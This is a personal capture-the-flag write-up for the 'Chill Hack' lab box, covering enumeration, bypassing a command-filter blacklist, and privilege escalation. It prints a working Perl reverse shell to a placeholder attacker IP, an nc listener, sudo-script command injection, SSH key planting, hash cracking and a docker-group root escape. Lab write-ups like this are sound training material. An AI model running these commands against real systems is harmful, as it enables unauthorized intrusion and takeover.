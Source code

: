# Chill Hack Writeup


Lets start with a simple `nmap -A -sS -T4 10.10.233.73` we get the following output

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.59.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

As we can see there is a webserver running so lets run gobuster and check it out at the same time. Okay so the website doesnt seem very usefull but gobuster found 
`/secret (Status: 301) [Size: 313] [--> http://10.10.233.73/secret/]`

Seems like we can execute commands on it, okay so after testing some commands there is a filter. Commands like `ls` return a 'Are you a Hacker?' page and commands like `echo hi` return the ouput with no problem so we can try hiding malicious intent in `echo`

Which did not take me long to find using `echo *` we can see the directories contents!
`images index.php` Lets try reading the index.php file so we can see the conditions that block our commands and avoid them! Using  ```echo `cat index.php` ``` we can spawn the file and if we now view source we find:
```
<!--?php if(isset($_POST['command'])) { $cmd = $_POST['command']; $store = explode(" ",$cmd); $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls'); for($i=0; $i<count($store); $i++) { for($j=0; $j<count($blacklist); $j++) { if($store[$i] == $blacklist[$j]) {?-->
```

So we now know we cant use without echo the following commands:
`nc,python,bash,php,perl,rm,cat,head,tail,python3,more,less,sh,ls`

If we run `nc -lnvp 9999` on our Attack Machine we listen for a reverse shell and after running the following command we have a shell! I found this on [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
```
echo `perl -e 'use Socket;$i="YOUR_IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
```

Before doing anything run `python3 -c 'import pty; pty.spawn("/bin/sh")'` to spawn a terminal with more capibilities. After looking around for a while I couldnt find much except some mySQL creds, but before checking that out I ran a [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and got some intresting output:

```
User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

Content of `.helpline.sh`

```
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

So we see that the `msg` variable will be executed, and send errors to /dev/null. So if we just run the script with `sudo -u apaar /home/apaar/.helpline.sh` we can now inside the script run commands under the `apaar` user. Spawn a better shell `python3 -c 'import pty;pty.spawn("/bin/bash")'` once again then we can navigate to `/home/apaar/` and `cat local.txt` which gives us the User Flag! Good job we have made it this far now time for privesc!

We can also gain ssh access by adding our public ssh key to `.ssh/authorized_keys` with `echo <YOUR SSH PUB KEY> >> .ssh/authorized_keys` and now using `ssh apaar@<VICTIM_IP>` on our attack machine we can login as apaar and get a proper shell!

Lets go back to the mySQL we found earlier in `/var/www/files/index.php` and login with `mysql -u root -p -D webportal`

![[Screen Shot 2022-02-10 at 6.05.57 PM.png]]

After running `show tables;` and  `SELECT * from users;` we can see we get the md5 hash of anurodh account, so lets crack that using [Crack Station](https://crackstation.net/) ![[https://github.com/Gomez0015/CTF-Writeups/📄%20CTF%20Writeups/images/Screen%20Shot%202022-02-10%20at%206.18.23%20PM.png]] and we get a postive result! Lets try loging in with ssh now.

Did not work. But I did see something intresting earlier in the `/var/www/files/hacker.php` file:

```
<center>
        <img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
        <h1 style="background-color:red;">You have reached this far. </h2>
        <h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
```

So lets try looking deeper into the image. To be able to download the image to our machine lets use the ftp service we saw earlier, I had not even noticed that there was an anonymous login available which gave this `note.txt`
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

We figured it out alone anyways so didnt miss anything huge. After trying to use ftp and it not working I realised we can just use apaar with the scp command and download the file  `scp apaar@<VICTIM_IP>:/var/www/files/images/hacker-with-laptop_23-2147985341.jpg .`

Now lets run steghide on it `steghide --info hacker-with-laptop_23-2147985341.jpg` after running this command with an empty password we can see a `backup.zip` file hidden inside, so lets extract it! `steghide extract -sf hacker-with-laptop_23-2147985341.jpg`

After extracting it if we try to `unzip backup.zip` it asks for a passphrase so we can try the md5 hashes we cracked earlier. None of them worked so I decided to use john,
first run `zip2john backup.zip | tee hash` to generate a hash file and then we can crack it using `john hash --wordlist=/usr/share/wordlists/rockyou.txt` 
![[Screen Shot 2022-02-10 at 6.27.07 PM.png]] And in a couple seconds we get a successfull password.

Upon using `cat source_code.php` we can see an intresting line:
`if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")`
We directly know its base64 encoded and can decode it easily which gives us
`!d0ntKn0wmYp@ssw0rd` Once again lets try logging in to ssh with this password.

It Worked! Finally we have a new user and new permissions!

After running anothe linPEAS (yes ik im addicted to laziness), we get 2 very very promising results for privesc:

```
Docker socket /var/run/docker.sock is writable
uid=1002(manurodh) gid=1002(manurodh) groups=1002(manurodh),999(docker)
```

So after looking up some privesc with docker I found the [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) reference, which with 1 easy command can spawn a root shell! 
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

Good Game! Took a while but we got there! Hope you guys enjoyed, I learned alot along the way and hopefully I didnt do to badly, cya for the next one.


